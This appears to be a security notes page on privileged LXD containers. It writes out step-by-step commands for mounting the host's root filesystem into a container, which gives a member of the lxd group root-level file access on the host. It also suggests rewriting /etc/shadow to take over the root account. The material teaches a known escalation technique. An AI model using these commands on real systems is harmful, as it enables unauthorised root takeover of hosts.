 ## Privileged Containers

All bets are off with privileged containers, to test out creating one we want to do the following

```
sudo su
lxc launch ubuntu:16.04 --security.privileged=true
lxc exec <name> bash
useradd tecmint
passwd tecmint
mkdir /home/tecmint
chown tecmint:tecmint /home/tecmint
usermod -a -G lxd tecmint
su tecmint
```

If you have either root privileges within a privileged container, or are a member of the lxd group, you can easily get root access on the host.  To do this, you'll have to mount the root directory under a container.

```
ubuntu@ubuntu:~$ lxc init ubuntu:16.04 test -c security.privileged=true 
Creating test 
ubuntu@ubuntu:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
Device whatever added to test 
ubuntu@ubuntu:~$ lxc start test 
ubuntu@ubuntu:~$ lxc exec test bash 
```

Here we see us creating a file within the /root/ directory under the mountpoint as shown.

```
root@test:~# cd /mnt/root 
root@test:/mnt/root# ls 
bin   cdrom  etc   initrd.img  lib64       media  opt   root  sbin  srv  tmp  var 
boot  dev    home  lib         lost+found  mnt    proc  run   snap  sys  usr  vmlinuz 
root@test:/mnt/root# cd root 
root@test:/mnt/root/root# ls 
root@test:/mnt/root/root# touch ICanDoWhatever 
root@test:/mnt/root/root# exit 
exit 
```

And so we see that the file has been created within our root directory.

```
ubuntu@ubuntu:~$ sudo su 
root@ubuntu:/home/ubuntu# ls /root 
ICanDoWhatever 
root@ubuntu:/home/ubuntu#  
```

This can be used quite trivially for container escape, as mounting the root directory in a nested container will mount the hosts container as all lxd commands run on the host.  While you won't be able to run arbitrary code on the host, you can write and read any file with root privileges, allowing you to, for example, write a new root password in the /etc/shadow folder.

References:

[https://linuxcontainers.org/lxc/getting-started/](https://linuxcontainers.org/lxc/getting-started/)

